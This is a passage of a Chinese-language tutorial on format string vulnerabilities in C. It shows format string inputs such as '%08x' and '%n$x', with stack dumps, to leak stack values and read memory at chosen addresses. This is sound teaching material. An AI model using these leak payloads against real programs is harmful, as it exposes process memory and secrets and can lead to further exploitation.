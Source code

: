 

输入: %08x.%08x.%08x.%08x.%08x,查看栈中参数分布

```c
[------------------------------------stack------------------------------------] 
0000|	0xffffd550	-->	0xffffd584	("%08x.%08x.%08x.%08x.%08x") 
0004|	0xffffd554	-->	0x1 
0008|	0xffffd558	-->	0x88888888 
0012|	0xffffd55c	-->	0xffffffff 
0016|	0xffffd560	-->	0xffffd57a	("ABCD") 
0020|	0xffffd564	-->	0xffffd584	("%08x.%08x.%08x.%08x.%08x") 
0024|	0xffffd568	("	RUV\327UUVT\332\377\367\001") 
0028|	0xffffd56c	-->	0x565555d7	(<main+26>: add ebx,0x1a29) 
```

输出结果

`00000001.88888888.ffffffff.ffffd57a.ffffd584`

格式字符串 %08x.%08x.%08x.%08x.%08x 表示函数 printf() 从栈中取出 5 个参数并将它 们以 8 位十六进制数的形式显示出来。

可以看到，上面的方法是利用格式字符串中转换指示符多于真实的参数，多出来的转换指示符将继续从栈中取“参数”，从而获取栈中内容。但是这样依次打印栈中的内容有时候还是不太方便，如果我们想要直接获得被指定的某个参数， 则可以使用类似下面的格式字符串：

`%n$x`	这里的 n 表示栈中格式字符串后面的第 n 个参数。

> 注： 在这里，如果格式化字符串在栈上，那么我们就一定确定格式化字符串的相对偏移，这是因为在函数调用的时候栈指针至少低于格式化字符串地址8字节或者16字节。 

输入	`%3$x.%1$08x.%2$p.%2$p.%4$p.%5$p.%6$p` 查看栈中参数分布

```c
[------------------------------------stack------------------------------------] 
0000|	0xffffd550	-->	0xffffd584	("%3$x.%1$08x.%2$p.%2$p.%4$p.%5$ p.%6$p")
0004|	0xffffd554	-->	0x1
0008|	0xffffd558	-->	0x88888888
0012|	0xffffd55c	-->	0xffffffff
0016|	0xffffd560	-->	0xffffd57a	("ABCD")
0020|	0xffffd564	-->	0xffffd584	("%3$x.%1$08x.%2$p.%2$p.%4$p.%5$ p.%6$p")
0024|	0xffffd568	("	RUV\327UUVT\332\377\367\001")
0028|	0xffffd56c	-->	0x565555d7	(<main+26>: add ebx,0x1a29)
```

输出	`ffffffff.00000001.0x88888888.0x88888888.0xffffd57a.0xffffd584.0x 56555220`

这里，格式字符串的地址为 0xffffd584。我们通过格式字符串	`%3$x.%1$08x.%2$p.%2$p.%4$p.%5$p.%6$p`	分别获取了 arg3、arg1、两个 arg2、arg4 和栈上紧跟参数的两个值。可以看到这种方法非常强大，可以获得栈中任意的值。



**tips**

> 1. 利用%x来获取对应栈的内存，但建议使用%p，可以不用考虑位数的区别。
> 2. 利用%s来获取变量所对应地址的内容，只不过有零截断。
> 3. 利用`%order$x`来获取指定参数的值，利用`%order$s`来获取指定参数对应地址的内容。

#### 查看任意地址的内容

攻击者可以使用一个“显示指定地址的内容”的格式规范来查看任意地址的内容。例如，使用 %s 显示参数指针所指定的地址的内容，将它作为一个 ASCII 字符串处理，直到遇到一个空字符 '\0'。如果攻击者能够操纵这个参数指针指向一个特定的地址，那么 %s 就会输出该位置的内存内容。
